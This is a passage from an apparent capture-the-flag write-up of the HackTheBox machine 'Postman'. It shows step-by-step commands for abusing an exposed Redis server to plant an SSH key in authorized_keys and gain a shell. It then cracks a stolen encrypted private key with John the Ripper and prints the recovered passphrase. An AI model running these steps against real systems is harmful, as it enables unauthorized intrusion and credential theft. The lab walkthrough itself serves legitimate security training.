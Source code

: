 Now we know that we can write in `/var/lib/redis`.

Before the second step, we have to make sure we are connected to the **master node**. Because sometimes we get connect to the slave node.
```console
10.10.10.160:6379> slaveof no one

OK
```

> P/S: This is where I got stuck, because I keep getting the error message `(error) READONLY You can't write against a read only slave.` when I'm connected to the slave node.

Second, I copy my own public key to a file called `temp.txt` and appended 2 newlines at the start and end of the file. If you have no SSH keys, you can generate them by using the `ssh-keygen` command.
```console
$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > temp.txt
$ cat temp.txt | redis-cli -h $IP -x set ssh_key

OK
```

Back to the **redis-cli**, we just have to change the directory to `[original directory]/.ssh/` and save the file as `authorized_keys`.
```console
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

Finally, we can connect to the server using our smuggled SSH keys.
```console
$ ssh -i ~/.ssh/id_rsa redis@$IP

[REDACTED]
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$
```

### We are in as `redis@Postman`!

Then I found `/opt/id_rsa.bak`. It is an encrypted SSH private key. I copied it to my box, saved it as `id_rsa_matt` and decrypt it using JohnTheRipper.
```console
$ ssh2john id_rsa_matt > forjohn
$ john forjohn -w=/usr/share/wordlists/rockyou.txt

[REDACTED]
computer2008		(id_rsa_matt)
```

So the password of the private key is `computer2008`. I then try to authenticate as Matt using SSH.
```console
$ ssh -i id_rsa_matt Matt@$IP
Enter passphrase for key 'id_rsa_matt': 
Connection closed by 10.10.10.160 port 22
```
